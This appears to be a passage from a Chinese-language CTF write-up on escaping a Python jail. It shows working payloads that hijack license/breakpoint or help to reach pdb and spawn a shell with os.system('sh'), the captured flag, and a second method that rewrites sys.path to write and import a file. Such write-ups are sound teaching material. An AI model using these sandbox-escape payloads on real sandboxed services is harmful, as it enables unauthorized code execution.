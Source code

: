 ```

welcome!
>>> setattr(license,'__dict__',locals()),delattr(license,'breakpoint'),breakpoint()
--Return--
> <string>(1)<module>()->(None, None, None)
(Pdb) import os;os.system('sh')
sh: 0: can't access tty; job control turned off
$ /readflag giveflag
idek{what_used_to_be_a_joke_has_now_turned_into_an_pyjail_escape.How_wonderful!}
```

相关覆盖的参数可以找这些https://github.com/python/cpython/blob/c5660ae96f2ab5732c68c301ce9a63009f432d93/Lib/site.py#L400-L426

```
quit,copyright,exit,license,credits
```

当然由于这个版本他是这样的启动参数

```dockerfile
ENTRYPOINT socat \
    TCP-LISTEN:1337,reuseaddr,fork,end-close \
    EXEC:"./jail.py",pty,ctty,stderr,raw,echo=0
```

所以也可以删help() 然后利用help()再rce 但是远程环境可能有些限制导致/tmp 无了可能/tmp不可写只读 但是本地可以工作

```
welcome!
>>> setattr(license,'__dict__',locals()),delattr(license,'help'),help()

Welcome to Python 3.8's help utility!

If this is your first time using Python, you should definitely check out
the tutorial on the Internet at https://docs.python.org/3.8/tutorial/.

Enter the name of any module, keyword, or topic to get help on writing
Python programs and using Python modules.  To quit this help utility and
return to the interpreter, just type "quit".

To get a list of available modules, keywords, symbols, or topics, type
"modules", "keywords", "symbols", or "topics".  Each module also comes
with a one-line summary of what it does; to list the modules whose name
or summary contain a given string such as "spam", type "modules spam".

help> os
[Errno 2] No usable temporary directory found in ['/tmp', '/var/tmp', '/usr/tmp', '/home/user']
```

#### 方法2 修改sys.path,写文件后再import:

其由以下几个部分组成

1. 通过`setattr`覆盖`sys.path`的属性,覆盖为可写的`/dev/shm`
2. 然后通过`print`函数的`file`参数 `https://blog.csdn.net/no_giveup/article/details/72017925`,然后用open来打开并且去写,`.`用`chr(46)`代替和拼接.
3. 使用`__import__`加载写入的文件名,然后执行代码

